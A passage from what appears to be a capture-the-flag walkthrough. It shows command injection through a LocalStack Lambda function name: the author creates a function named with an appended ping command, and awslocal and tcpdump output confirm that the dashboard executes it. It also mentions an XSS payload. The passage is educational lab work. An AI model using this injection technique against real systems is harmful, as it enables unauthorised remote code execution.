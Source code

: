 

    oxdf@hacky$ awslocal lambda create-function --function-name 'ex' --zip-file fileb://index.zip --role arn:aws:iam::123456789012:role/lambda-role --handler index.handler --runtime nodejs12.x
    {
        "FunctionName": "ex",
        "FunctionArn": "arn:aws:lambda:us-east-1:000000000000:function:ex",
        "Runtime": "nodejs12.x",
        "Role": "arn:aws:iam::123456789012:role/lambda-role",
        "Handler": "index.handler",
        "CodeSize": 291,
        "Description": "",
        "Timeout": 3,
        "LastModified": "2021-08-25T18:50:03.403+0000",
        "CodeSha256": "RflcSNGUgqyNEvEtX4iMOtjiR8yEmBLyRFZIk3h+BDE=",
        "Version": "$LATEST",
        "VpcConfig": {},
        "TracingConfig": {
            "Mode": "PassThrough"
        },
        "RevisionId": "02efdc6d-506b-489b-861e-97026426a94d",
        "State": "Active",
        "LastUpdateStatus": "Successful",
        "PackageType": "Zip"
    }



On refreshing the dashboard, first there's a spinner suggesting it's
loading, and about five seconds later, it shows my lambda:

![](/img/image-20210825145206991.png)

I'll try creating one named `ex;ping -c 1 172.17.0.1` (my local IP on
the docker net). On refreshing, again, it takes five to ten seconds, but
then it loads:

![](/img/image-20210825145440757.png)

There's also ICMP packets at `tcpdump`:



    oxdf@hacky$ sudo tcpdump -ni docker0 icmp
    tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
    listening on docker0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
    14:55:23.581855 IP 172.17.0.2 > 172.17.0.1: ICMP echo request, id 731, seq 1, length 64
    14:55:23.581911 IP 172.17.0.1 > 172.17.0.2: ICMP echo reply, id 731, seq 1, length 64



This is RCE, and good because it confirms the vulnerability works, even
on the latest image. But it's bad because it shows why it's failing
remotely - the page has to fully load, and my XSS JavaScript is only
requesting the page source, so unlike a browser, it doesn't then try to
load and execute all the JavaScript on that page.
